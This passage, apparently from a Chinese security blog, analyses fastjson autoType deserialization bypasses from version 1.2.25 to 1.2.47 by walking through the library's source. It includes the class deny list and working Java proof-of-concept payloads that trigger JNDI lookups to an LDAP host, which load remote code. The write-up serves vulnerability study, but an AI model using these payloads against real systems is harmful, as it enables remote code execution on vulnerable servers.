| `<script type="math/tex" id="MathJax-Element-1">` | 根对象，例如`</script>.name`                                 |
| [num]                                             | 数组访问，其中num是数字，可以是负数。例如$[0].leader.departments[-1].name |
| [num0,num1,num2…]                                 | 数组多个元素访问，其中num是数字，可以是负数，返回数组中的多个元素。例如$[0,3,-2,5] |
| [start:end]                                       | 数组范围访问，其中start和end是开始小表和结束下标，可以是负数，返回数组中的多个元素。例如$[0:5] |
| [start:end :step]                                 | 数组范围访问，其中start和end是开始小表和结束下标，可以是负数；step是步长，返回数组中的多个元素。例如$[0:5:2] |
| [?(key)]                                          | 对象属性非空过滤，例如$.departs[?(name)]                     |
| [key > 123]                                       | 数值类型对象属性比较过滤，例如$.departs[id >= 123]，比较操作符支持=,!=,>,>=,<,<= |
| [key = ‘123’]                                     | 字符串类型对象属性比较过滤，例如$.departs[name = ‘123’]，比较操作符支持=,!=,>,>=,<,<= |
| [key like ‘aa%’]                                  | 字符串类型like过滤，<br/>例如$.departs[name like ‘sz*’]，通配符只支持%<br/>支持not like |
| [key rlike ‘regexpr’]                             | 字符串类型正则匹配过滤，<br/>例如departs[name like ‘aa(.)*’]，<br/>正则语法为jdk的正则语法，支持not rlike |
| [key in (‘v0’, ‘v1’)]                             | IN过滤, 支持字符串和数值类型<br/>例如:<br/>.departs[namein(′wenshao′,′Yako′)]<br/>.departs[id not in (101,102)] |
| [key between 234 and 456]                         | BETWEEN过滤, 支持数值类型，支持not between<br/>例如:<br/>.departs[id between 101 and 201]<br/>.departs[id not between 101 and 201] |
| length() 或者 size()                              | 数组长度。例如$.values.size()<br/>支持类型java.util.Map和java.util.Collection和数组 |
| .                                                 | 属性访问，例如$.name                                         |
| ..                                                | deepScan属性访问，例如$..name                                |
| *                                                 | 对象的所有属性，例如$.leader.*                               |
| ['key']                                           | 属性访问。例如$[‘name’]                                      |
| ['key0','key1']                                   | 多个属性访问。例如$[‘id’,’name’]                             |
| $                                                 | 根对象                                                       |
| $[-1]                                             | 最后元素                                                     |
| $[:2]                                             | 第1个至倒数第2个                                             |
| $[1:]                                             | 第2个之后所有元素                                            |
| $[1,2,3]                                          | 集合中1,2,3个元素                                            |

JavaBeanDeserializer 支持 `$ref` 这种技巧，ThrowableDeserializer 不支持，后者没有`parseField()` 方法。

fastjson 默认提供对象引用功能，在传输的数据中出现相同的对象时，fastjson 默认开启引用检测将相同的对象写成引用的形式，对应如下：

| 引用                    | 描述                                             |
| ----------------------- | ------------------------------------------------ |
| `"$ref":".."`           | 上一级                                           |
| `"$ref":"@"`            | 当前对象，也就是自引用                           |
| `"$ref":"$"`            | 根对象                                           |
| `"$ref":"$.children.0"` | 基于路径的引用，相当于 root.getChildren().get(0) |

具体的处理代码在 `JavaBeanDeserializer#deserialze` 方法中 

 

#### $ref触发get方法

主要流程

```
DefaultJSONParser.parse
DefaultJSONParser.parseObject
JSON.parse
DefaultJSONParser.handleResovleTask
JSONPath.eval
JSONPath.compile
JSONPath.eval
JSONPath.init  #this.init()
JSONPath.explain # 实现segment接口的类只有八个
# 使用 System.arraycopy 浅拷贝赋值返回
JSONPath.getPropertyValue
JavaBeanSerializer.getFieldSerializer
JavaBeanSerializer.getFieldValue
FieldSerializer.getPropertyValue
FieldInfo.get
```

八个segment接口



具体流程参考: https://blog.csdn.net/solitudi/article/details/120275526

#### 1.2.36前为什么不行

关键在于 JSONPath#eval 的调用, 在1.2.36之前要么是不读调用  JSONPath#eval 方法要么就是限制`refValue`的值不能为`null`，并且必须是`JSONObject`对象才可调用, 在 1.2.36 版本及以后可以直接调用

```java
if (ref.startsWith("$")) {
	refValue = this.getObject(ref);
    if (refValue == null) {
    	try {
        	refValue = JSONPath.eval(value, ref);
        } catch (JSONPathException var10) {
        }
    }
} else {
	refValue = task.context.object;
}
```

## [1.2.25-1.2.41]黑名单绕过

接下来所谓的绕过都是在服务端显性开启`AutoTypeSupport为True`的情况下进行的 

先来看显性修改`AutoTypeSupport为True`时的代码

[1.2.25]com.alibaba.fastjson.parser.ParserConfig#checkAutoType(关闭白名单机制) 

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass) {
        if (typeName == null) {
            return null;
        }

        final String className = typeName.replace('$', '.');


        if (autoTypeSupport || expectClass != null) {
            //先进行白名单匹配，如果匹配成功则直接返回。可见所谓的关闭白名单机制是不只限于白名单
            for (int i = 0; i < acceptList.length; ++i) {
                String accept = acceptList[i];
                if (className.startsWith(accept)) {
                    return TypeUtils.loadClass(typeName, defaultClassLoader);
                }
            }
           //同样进行黑名单匹配，如果匹配成功，则报错推出。
            //需要注意这所谓的匹配都是startsWith开头匹配
            for (int i = 0; i < denyList.length; ++i) {
                String deny = denyList[i];
                if (className.startsWith(deny)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        //一些固定类型的判断，不会对clazz进行赋值，此处省略

        //不匹配白名单中也不匹配黑名单的，进入此处，进行class加载
        if (autoTypeSupport || expectClass != null) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader);
        }

        //对于加载的类进行危险性判断，判断加载的clazz是否继承自Classloader与DataSource
        if (clazz != null) {
            if (ClassLoader.class.isAssignableFrom(clazz) // classloader is danger
                    || DataSource.class.isAssignableFrom(clazz) // dataSource can load jdbc driver
                    ) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            if (expectClass != null) {
                if (expectClass.isAssignableFrom(clazz)) {
                    return clazz;
                } else {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }
            }
        }
        //返回加载的class
        return clazz;
}
```

可见在显性关闭白名单的情况下，我们也需要绕过黑名单检测，同时加载的类不能继承自Classloader与DataSource。

在1.2.25中扩充了黑名单类

```
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

再跟进一下类的加载`TypeUtils.loadClass` 

```java
public static Class<?> loadClass(String className, ClassLoader classLoader) {
        if (className == null || className.length() == 0) {
            return null;
        }

        Class<?> clazz = mappings.get(className);

        if (clazz != null) {
            return clazz;
        }

        //特殊处理1
        if (className.charAt(0) == '[') {
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        }
        //特殊处理2
        if (className.startsWith("L") && className.endsWith(";")) {
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
    ...
```

可以发现: 

- 如果这个className是以`[`开头我们会去掉`[`进行加载

分析后发现采用`[xxxxxx` 进行解析会在 JSON 解析时就提前报错

- 如果这个className是以`L`开头`;`结尾，就会去掉开头和结尾进行加载 

而采用`Lxxxxxx;` 则不会报错, 但是通过网上翻阅还是可以找到采用`[`的畸形payload, 简要概括原因为命令执行比解析错误先来(添加换行或空格可以避免语法错误是可以说得通的)

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * fastjson 1.2.25-1.2.41
 */
public class fastjson1225
{
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
//        String payload = "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"" +
//                "[{\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
//                "\"autoCommit\":true}]}";
//        String payload= "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"" +
//                "[{\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
//                "\"autoCommit\":true";
        String payload = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

## [1.2.42]哈希校验绕过

采用了hash校验

```
this.denyHashCodes = new long[]{-8720046426850100497L, -8109300701639721088L, -7966123100503199569L, -7766605818834748097L, -6835437086156813536L, -4837536971810737970L, -4082057040235125754L, -2364987994247679115L, -1872417015366588117L, -254670111376247151L, -190281065685395680L, 33238344207745342L, 313864100207897507L, 1203232727967308606L, 1502845958873959152L, 3547627781654598988L, 3730752432285826863L, 3794316665763266033L, 4147696707147271408L, 5347909877633654828L, 5450448828334921485L, 5751393439502795295L, 5944107969236155580L, 6742705432718011780L, 7179336928365889465L, 7442624256860549330L, 8838294710098435315L};
```

虽然说利用hash可以让我们不知道禁用了什么类，但是加密方式是有写`com.alibaba.fastjson.parser.ParserConfig#addDeny`中的`com.alibaba.fastjson.util.TypeUtils#fnv1a_64`，我们理论上可以遍历jar，字符串，类去碰撞得到这个hash的值。（因为常用的包是有限的） 

```
public static long fnv1a_64(String key) {
    long hashCode = -3750763034362895579L;

    for(int i = 0; i < key.length(); ++i) {
        char ch = key.charAt(i);
        hashCode ^= (long)ch;
        hashCode *= 1099511628211L;
    }

    return hashCode;
}
//可以注意到，计算hash是遍历每一位进行固定的异或和乘法运算进行累积运算
```

有专门的[Github项目](https://github.com/LeadroyaL/fastjson-blacklist)完成了这样的事情，已列出了目前已经得到的hash 

再是对于传入的类名，删除开头`L`和结尾的`;` 

`com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int) `

```java
    public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
        if (typeName == null) {
            return null;
        } else if (typeName.length() < 128 && typeName.length() >= 3) {
            String className = typeName.replace('$', '.');
            Class<?> clazz = null;
            long BASIC = -3750763034362895579L;
            long PRIME = 1099511628211L;
            // 对传入类名的第一位和最后一位做了hash，如果是L开头，;结尾，删去开头结尾
        	// 可以发现这边只进行了一次删除
            if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                className = className.substring(1, className.length() - 1);
            }
			// 计算处理后的类名的前三个字符的hash
            long h3 = (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L ^ (long)className.charAt(2)) * 1099511628211L;
            long hash;
            int i;
            if (this.autoTypeSupport || expectClass != null) {
                hash = h3;
				//基于前三个字符的hash结果继续进行hash运算
            	//这边一位一位运算比较其实就相当于之前的startswith，开头匹配
                for(i = 3; i < className.length(); ++i) {
                    hash ^= (long)className.charAt(i);
                    hash *= 1099511628211L;
                    //将运算结果跟白名单做比对
                    if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                        if (clazz != null) {
                            return clazz;
                        }
                    }
					//将运算结果跟黑名单做比对
                    if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }
            }
            //之后就是一样的处理，根据类名加载类
            ...
```

可以发现在以上的处理中，只删除了一次开头的`L`和结尾的`;` ,  重复一下就可以被轻易的绕过

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * fastjson 1.2.42
 */
public class fastjson1242
{
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:1099/calc\"," +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

## [1.2.43]版本修复

在1.2.43中对于1.2.42版本可绕过的情况进行了修复。

修改了`com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class, int)`的部分代码 

```java
//hash计算基础参数
            long BASIC = -3750763034362895579L;
            long PRIME = 1099511628211L;
            //L开头，；结尾
            if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
                //LL开头
                if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
                    //直接爆出异常
                    throw new JSONException("autoType is not support. " + typeName);
                }

                className = className.substring(1, className.length() - 1);
            }
```

## [1.2.44] `[` 限制

1.2.44补充了loadclass时`[`的利用情况，上面说到过，实际上这种形式的payload是用不了的。 

## [1.2.45] 黑名单添加

1.2.45添加了黑名单，封堵了一些可以绕过黑名单的payload 

pom.xml

```
    <!--1.2.45 黑名单添加-->
    <dependency>
      <groupId>org.apache.ibatis</groupId>
      <artifactId>ibatis-core</artifactId>
      <version>3.0</version>
    </dependency>
```

POC

```java
package cve.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

/**
 * fastjson 1.2.45 黑名单添加
 */
public class fastjson1245
{
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"," +
                "\"properties\":{" +
                "\"data_source\":\"ldap://127.0.0.1:1099/calc\"" +
                "}}";
        JSON.parse(payload);
    }
}
```

## [1.2.47] 通杀payload

还是从` com.alibaba.fastjson.parser.ParserConfig#checkAutoType(java.lang.String, java.lang.Class<?>, int) `这个方法进行分析

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
        //1.typeName为null的情况，略

        //2.typeName太长或太短的情况，略

        //3.替换typeName中$为.，略

        //4.使用hash的方式去判断[开头，或L开头;结尾，直接报错
        //这里经过几版的修改，有点不一样了，但是绕不过，也略

        //5.autoTypeSupport为true(白名单关闭)的情况下，返回符合白名单的，报错符合黑名单的
        //(这里可以发现，白名单关闭的配置情况下，必须先过黑名单，但是留下了一线生机)
        if (autoTypeSupport || expectClass != null) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                hash ^= className.charAt(i);
                hash *= PRIME;
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                    if (clazz != null) {
                        return clazz;
                    }
                }
                //要求满足黑名单并且从一个Mapping中找不到这个类才会报错，这个Mapping就是我们的关键
                if (Arrays.binarySearch(denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        //6.从一个Mapping中获取这个类名的类，我们之后看
        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }
        //7.从反序列化器中获取这个类名的类，我们也之后看
        if (clazz == null) {
            clazz = deserializers.findClass(typeName);
        }
        //8.如果在6，7中找到了clazz，这里直接return出去，不继续了
        if (clazz != null) {
            if (expectClass != null
                    && clazz != java.util.HashMap.class
                    && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            }
           //无论是默认白名单开启还是手动白名单关闭的情况，我们都要从这个return clazz中出去
            return clazz;
        }
        // 9. 针对默认白名单开启情况的处理，这里
        if (!autoTypeSupport) {
            long hash = h3;
            for (int i = 3; i < className.length(); ++i) {
                char c = className.charAt(i);
                hash ^= c;
                hash *= PRIME;
                //碰到黑名单就死
                if (Arrays.binarySearch(denyHashCodes, hash) >= 0) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
                //满足白名单可以活，但是白名单默认是空的
                if (Arrays.binarySearch(acceptHashCodes, hash) >= 0) {
                    if (clazz == null) {
                        clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
                    }
                    //针对expectCLass的特殊处理，没有expectCLass，不管
                    if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }

                    return clazz;
                }
            }
        }
        //通过以上全部检查，就可以从这里读取clazz
        if (clazz == null) {
            clazz = TypeUtils.loadClass(typeName, defaultClassLoader, false);
        }

        //这里对一些特殊的class进行处理，不重要

       //特性判断等

        return clazz;
    }
```

仔细分析一下，可以发现无论是白名单开启与否，恶意类都要想办法从第8步的`return clazz`出去才有机会触发命令执行

1. 因为白名单（手动）关闭时，如果进入第九步，一定会跟黑名单正面撞上，异常终止。只能在这之前溜出去，机会就在6，7步中。
2. 白名单（默认）开启时，虽然在第五步时，我们也会跟黑名单撞上，但是却莫名其妙的会有一线生机，只要满足`TypeUtils.getClassFromMapping(typeName) != null`（是!=）反而可以从黑名单中逃开。然后从第八步中return出去。

那往之前看clazz可以从5、6、7三个地方赋值，但是5是白名单匹配才返回所以首先排除。剩下6，7两个赋值方式

1. TypeUtils.getClassFromMapping(typeName)
2. deserializers.findClass(typeName)

### deserializers.findClass(typeName)

先看desesrializers，一个hashmap

```java
private final IdentityHashMap<Type, ObjectDeserializer> deserializers         = new IdentityHashMap<Type, ObjectDeserializer>();
```

因为我们是从中取值，关注一下它是在哪里赋值的，当前文件搜索`deserializers.put` 

主要是` com.alibaba.fastjson.parser.ParserConfig#initDeserializers `

```
    private void initDeserializers() {
        deserializers.put(SimpleDateFormat.class, MiscCodec.instance);
        deserializers.put(java.sql.Timestamp.class, SqlDateDeserializer.instance_timestamp);
        deserializers.put(java.sql.Date.class, SqlDateDeserializer.instance);
        deserializers.put(java.sql.Time.class, TimeDeserializer.instance);
        deserializers.put(java.util.Date.class, DateCodec.instance);
        deserializers.put(Calendar.class, CalendarCodec.instance);
        deserializers.put(XMLGregorianCalendar.class, CalendarCodec.instance);

        deserializers.put(JSONObject.class, MapDeserializer.instance);
        deserializers.put(JSONArray.class, CollectionCodec.instance);

        deserializers.put(Map.class, MapDeserializer.instance);
        deserializers.put(HashMap.class, MapDeserializer.instance);
        deserializers.put(LinkedHashMap.class, MapDeserializer.instance);
        deserializers.put(TreeMap.class, MapDeserializer.instance);
        deserializers.put(ConcurrentMap.class, MapDeserializer.instance);
        deserializers.put(ConcurrentHashMap.class, MapDeserializer.instance);

        deserializers.put(Collection.class, CollectionCodec.instance);
        deserializers.put(List.class, CollectionCodec.instance);
        deserializers.put(ArrayList.class, CollectionCodec.instance);

        deserializers.put(Object.class, JavaObjectDeserializer.instance);
        deserializers.put(String.class, StringCodec.instance);
        deserializers.put(StringBuffer.class, StringCodec.instance);
        deserializers.put(StringBuilder.class, StringCodec.instance);
        deserializers.put(char.class, CharacterCodec.instance);
        deserializers.put(Character.class, CharacterCodec.instance);
        deserializers.put(byte.class, NumberDeserializer.instance);
        deserializers.put(Byte.class, NumberDeserializer.instance);
        deserializers.put(short.class, NumberDeserializer.instance);
        deserializers.put(Short.class, NumberDeserializer.instance);
        deserializers.put(int.class, IntegerCodec.instance);
        deserializers.put(Integer.class, IntegerCodec.instance);
        deserializers.put(long.class, LongCodec.instance);
        deserializers.put(Long.class, LongCodec.instance);
        deserializers.put(BigInteger.class, BigIntegerCodec.instance);
        deserializers.put(BigDecimal.class, BigDecimalCodec.instance);
        deserializers.put(float.class, FloatCodec.instance);
        deserializers.put(Float.class, FloatCodec.instance);
        deserializers.put(double.class, NumberDeserializer.instance);
        deserializers.put(Double.class, NumberDeserializer.instance);
        deserializers.put(boolean.class, BooleanCodec.instance);
        deserializers.put(Boolean.class, BooleanCodec.instance);
        deserializers.put(Class.class, MiscCodec.instance);
        deserializers.put(char[].class, new CharArrayCodec());

        deserializers.put(AtomicBoolean.class, BooleanCodec.instance);
        deserializers.put(AtomicInteger.class, IntegerCodec.instance);
        deserializers.put(AtomicLong.class, LongCodec.instance);
        deserializers.put(AtomicReference.class, ReferenceCodec.instance);

        deserializers.put(WeakReference.class, ReferenceCodec.instance);
        deserializers.put(SoftReference.class, ReferenceCodec.instance);

        deserializers.put(UUID.class, MiscCodec.instance);
        deserializers.put(TimeZone.class, MiscCodec.instance);
        deserializers.put(Locale.class, MiscCodec.instance);
        deserializers.put(Currency.class, MiscCodec.instance);
        deserializers.put(InetAddress.class, MiscCodec.instance);
        deserializers.put(Inet4Address.class, MiscCodec.instance);
        deserializers.put(Inet6Address.class, MiscCodec.instance);
        deserializers.put(InetSocketAddress.class, MiscCodec.instance);
        deserializers.put(File.class, MiscCodec.instance);
        deserializers.put(URI.class, MiscCodec.instance);
        deserializers.put(URL.class, MiscCodec.instance);
        deserializers.put(Pattern.class, MiscCodec.instance);
        deserializers.put(Charset.class, MiscCodec.instance);
        deserializers.put(JSONPath.class, MiscCodec.instance);
        deserializers.put(Number.class, NumberDeserializer.instance);
        deserializers.put(AtomicIntegerArray.class, AtomicCodec.instance);
        deserializers.put(AtomicLongArray.class, AtomicCodec.instance);
        deserializers.put(StackTraceElement.class, StackTraceElementDeserializer.instance);

        deserializers.put(Serializable.class, JavaObjectDeserializer.instance);
        deserializers.put(Cloneable.class, JavaObjectDeserializer.instance);
        deserializers.put(Comparable.class, JavaObjectDeserializer.instance);
        deserializers.put(Closeable.class, JavaObjectDeserializer.instance);

        deserializers.put(JSONPObject.class, new JSONPDeserializer());
    }
```

initDeserializers这个函数是在parserConfig类的构造函数中初始化时调用的，存放的是一些认为没有危害的固定常用类。理所当然不会包含我们的利用类。除此之外还有两个类会影响到desesrializers这个map  

```
com.alibaba.fastjson.parser.ParserConfig#getDeserializer(java.lang.Class<?>, java.lang.reflect.Type)
```

在这个类中会往deserializers这个mapping中放入一些特定类：`java.awt.*`、`java.time.*`、`java.util.Optional*`、`java.nio.file.Path`、`Map.Entry.class`、以及在服务器`META-INF/services/`目录下存放的class文件，还有枚举类的一些判断。对于一些数组，集合，map等再调用`putDesserializer`（这也是另一个会影响到desesrializers这个map的类）放入deserializers这个mapping中。 

在这个类中对于类名有着严格的要求和限定，不太行。看下一个。 

```
com.alibaba.fastjson.parser.ParserConfig#putDeserializer
public void putDeserializer(Type type, ObjectDeserializer deserializer) {
        deserializers.put(type, deserializer);
    }
```

代码极其简单，但是只在 ParserConfig#getDeserializer（就是上面那个类）和`initJavaBeanDeserializers`类中使用过。但是后者是一个初始化函数，我们同样不可控输入值。 

那么好像发现我们的输入不可以改变deserializers这个mapping的值，从而自然也不能进一步在checkAutoType中被get读取出来，也就绕过不了。

这个**deserializers在checkAutoType方法中存在的意义**应该是直接放行一些常用的类，来提升解析速度。

### TypeUtils.getClassFromMapping(typeName)

先看`getClassFromMapping` 

```
//这个map是一个hashmap
private static ConcurrentMap<String,Class<?>> mappings = new ConcurrentHashMap<String,Class<?>>(16, 0.75f, 1);
    ...
    public static Class<?> getClassFromMapping(String className)	{
        //很简单的一个mapping的get
        return mappings.get(className);
    }
```

按照套路去寻找影响这个mappings的put方法。搜索`mappings.put`，在下面这两个方法中有找到 

```
com.alibaba.fastjson.util.TypeUtils#addBaseClassMappings
com.alibaba.fastjson.util.TypeUtils#loadClass(java.lang.String, java.lang.ClassLoader, boolean)
```

看`addBaseClassMappings`这个方法，方法内容很长，就不细看了，但是它是一个没有传参的方法...这样我们就没有一个可控的参数去控制其中的内容。 

```
private static void addBaseClassMappings(){
    mappings.put("byte", byte.class);
    mappings.put("short", short.class);
    mappings.put("int", int.class);
    mappings.put("long", long.class);
    //诸如此类的放入一些固定的class至mappings中
    ...
}
```

并且只在两个无法影响的地方调用了这个方法 

前者是一个static静态代码块：

```
static{
        addBaseClassMappings();
    }
```

后者是一个`clearClassMapping`方法：

```
public static void clearClassMapping(){
    mappings.clear();
    addBaseClassMappings();
}
```

再看另一个有mappings.put的位置`TypeUtils.loadClass`，我们需要详细看看这个方法 

```java
public static Class<?> loadClass(String className, ClassLoader classLoader, boolean cache) {
        //判断className是否为空，是的话直接返回null
        if(className == null || className.length() == 0){
            return null;
        }
        //判断className是否已经存在于mappings中
        Class<?> clazz = mappings.get(className);
        if(clazz != null){
            //是的话，直接返回
            return clazz;
        }
        //判断className是否是[开头，1.2.44中针对限制的东西就是这个
        if(className.charAt(0) == '['){
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        }
        //判断className是否L开头;结尾，1.2.42，43中针对限制的就是这里，但都是在外面限制的，里面的东西没变
        if(className.startsWith("L") && className.endsWith(";")){
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        }
        //1. 我们需要关注的mappings在这里有
        try{
            //输入的classLoader不为空时
            if(classLoader != null){
                //调用加载器去加载我们给的className
                clazz = classLoader.loadClass(className);
                //！！如果cache为true！！
                if (cache) {
                    //往我们关注的mappings中写入这个className
                    mappings.put(className, clazz);
                }
                return clazz;//返回加载出来的类
            }
        } catch(Throwable e){
            e.printStackTrace();
            // skip
        }
        //2. 在这里也有，但是好像这里有关线程，比较严格。
        try{
            ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
            if(contextClassLoader != null && contextClassLoader != classLoader){
                clazz = contextClassLoader.loadClass(className);
                //同样需要输入的cache为true，才有可能修改
                if (cache) {
                    mappings.put(className, clazz);
                }
                return clazz;
            }
        } catch(Throwable e){
            // skip
        }
        //3. 这里也有，限制很松
        try{
            //加载类
            clazz = Class.forName(className);
            //直接放入mappings中
            mappings.put(className, clazz);
            return clazz;
        } catch(Throwable e){
            // skip
        }
        return clazz;
    }
```

可以发现如果可以控制输入参数，是可以往这个mappings中写入任意类名的（从而绕过autocheck的黑白名单） 

再来看看这个类在什么地方被引用 



前三者都是在`ParserConfig#autocheck`这个我们需要攻克的类中，如果能在那里调用loadClass并传入一个恶意类去加载。那就已经完成了我们的最终目的，根本不需要通过mappings这个空子去钻。 

所以只需要看TypeUtils.java中的引用处 

```
    public static Class<?> loadClass(String className, ClassLoader classLoader) {
        return loadClass(className, classLoader, true);
    }
```

**cache为true**，有三处修改mapping的地方，两个地方需要cache为true。 

可以看到在这个类中会自己引用自己的类，跳来跳去，但是也有外部的类引用当前类。这是我们主要关注的。 搜索可以控制的地方, 只有一处

```
com.alibaba.fastjson.serializer.MiscCodec#deserialze(DefaultJSONParser parser, Type clazz, Object fieldName):334
```

然后分析其代码

```java
public <T> T deserialze(DefaultJSONParser parser, Type clazz, Object fieldName) {
        JSONLexer lexer = parser.lexer;

        //4. clazz类型等于InetSocketAddress.class的处理。
        //我们需要的clazz必须为Class.class，不进入
        if (clazz == InetSocketAddress.class) {
            ...
        }

        Object objVal;
        //3. 下面这段赋值objVal这个值
        //此处这个大的if对于parser.resolveStatus这个值进行了判断，我们在稍后进行分析这个是啥意思
        if (parser.resolveStatus == DefaultJSONParser.TypeNameRedirect) {
            //当parser.resolveStatus的值为  TypeNameRedirect
            parser.resolveStatus = DefaultJSONParser.NONE;
            parser.accept(JSONToken.COMMA);
